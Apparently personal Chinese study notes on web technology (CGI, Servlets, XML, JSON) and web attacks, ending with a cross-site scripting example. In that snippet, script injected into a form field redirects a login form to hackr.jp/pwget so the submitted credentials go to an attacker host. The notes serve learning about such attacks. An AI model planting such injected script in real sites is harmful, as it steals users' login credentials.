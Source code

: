 ### Web App

这种由程序创建的内容称为动态内容，而事先准备好的内容称 为静态内容。Web 应用则作用于动态内容之上。

CGI

- 是指 Web 服务器在接收到客户端发送过来的请求后转发给程序的一组机制。 程序会对请求内容做出相应的动作， 比如创建 HTML 等动态 内容。

Servlet(server applet)

- Servlet 是一种能在服务器上创建动态内容的程序。
- Servlet 作为解决 CGI 问题的对抗技术，随 Java 一起得到了普及。
- 随着 CGI 的普及，每次请求都要启动新 CGI 程序的 CGI 运行机制 逐渐变成了性能瓶颈，所以之后 Servlet 和 mod_perl 等可直接在 Web 服 务器上运行的程序才得以开发、普及。

### XML

与 HTML 相比，它对数据的记录方式做 了特殊处理。

在XML中，是严格的树状结构，绝对不能省略掉结束标记。从 XML 文档中读取数据比起 HTML 更为简单。由于 XML 的结构 基本上都是用标签分割而成的树形结构，因此通过语法分析器（Parser） 的解析功能解析 XML 结构并取出数据元素， 可更容易地对数据进行 读取。

html是用来显示数据的；xml是用来描述数据、存放数据的——因为句法更严格？

### JSON

javascript object notation

## 11-Web攻击

### http的问题

- 无法对session进行管理、加密
- SSH本身提供了相关服务

### 攻击模式

- 主动攻击：sql、os注入攻击（直接攻击server）
- 被动攻击：木马脚本、网址等（获取client信息）被动攻击模式中具有代表性的攻击是跨站脚本攻击和跨站 点请求伪造。

### 细说攻击

- 跨站脚本攻击

  - 虚假表单骗取用户信息

  - ```javascript
    <div class="input_id">
    
    ID <input type="text" name="ID" value=" "><script>var f=document ⇒
    
    .getElementById("login"); f.action="http://hackr.jp/pwget"; f.method= ⇒
    
    "get";</script><span s=" " />
    
    </div>
    ```
